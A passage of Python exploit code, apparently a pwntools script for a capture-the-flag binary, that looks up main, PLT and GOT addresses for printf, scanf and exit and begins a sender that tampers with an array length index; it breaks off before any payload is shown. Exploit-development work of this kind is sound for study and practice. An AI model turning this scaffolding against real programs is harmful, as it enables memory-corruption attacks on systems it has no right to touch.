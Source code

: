 ```
# ============================

# ======== binary stuff =========
main_addr = exe.sym["main"]
log_print("main addr", hex(main_addr))
str_lld_addr = next(exe.search(b"%lld"))
log_print("str.%lld addr", hex(str_lld_addr))
# ============================

# ======== plt stuff =========
plt_printf_addr = exe.plt['printf']
log_print("plt.printf addr", hex(plt_printf_addr))
plt_scanf_addr = exe.plt['__isoc99_scanf']
log_print("plt.scanf addr", hex(plt_scanf_addr))
# ============================


# ======== GOT stuff =========
got_printf_addr = exe.got['printf']
log_print("got.printf addr", hex(got_printf_addr))
got_exit_addr = exe.got['exit']
log_print("got.exit addr", hex(got_exit_addr))
# ============================


# ======== stack stuff =========
# stack = flat({
#     0x0: [
#         b"AAAA",
#         0xaaaa,
#         b"AAAA",
#     ],
#     0x100: b"BBBB",
#     0x200: 0xbbbb,
# },filler=b'\x00',length=0x500)
# ============================


writable_addr = 0x404700

io = start()
wait_for_debugger(io)


# ======== pipline stuff =========
# io.send(b"aaaa")
# io.sendline(b"aaaa")
# io.sendlineafter(b"A: ", b"%d" % 1)
#
# io.recv()
# io.recvuntil(b"A: ")
# ============================

def main_list_length(payload):
    return 20 + len(payload)


def main_sender(io, payload):
    length = main_list_length(payload)
    for i in range(length):
        if i == 16:
            io.sendlineafter(b"A[%d]: " % i, b"%d" % length)
            continue
```